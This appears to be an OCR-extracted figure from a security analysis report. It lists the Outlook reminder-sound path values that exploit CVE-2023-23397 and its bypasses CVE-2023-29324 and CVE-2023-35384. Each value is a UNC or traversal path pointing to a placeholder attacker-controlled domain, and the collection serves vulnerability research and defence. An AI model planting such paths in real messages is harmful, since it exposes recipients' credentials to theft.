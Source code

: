 CVE-2023-23397
\\<attacker-controlled domain>\<file>.wav

**CVE-2023-29324**

\\.\UNC\\<attacker-controlled domain>\<file>.wav

**CVE-2023-35384**

\\./UNC/C://../<attacker-controlled domain>/<file>.wav

Figure 18. PidLidReminderFileParameter examples showing CVE-2023-23397, 
CVE-2023-29324, and CVE-2023-35384 exploitation

![Image](spatial_images/page_37_img_133.png)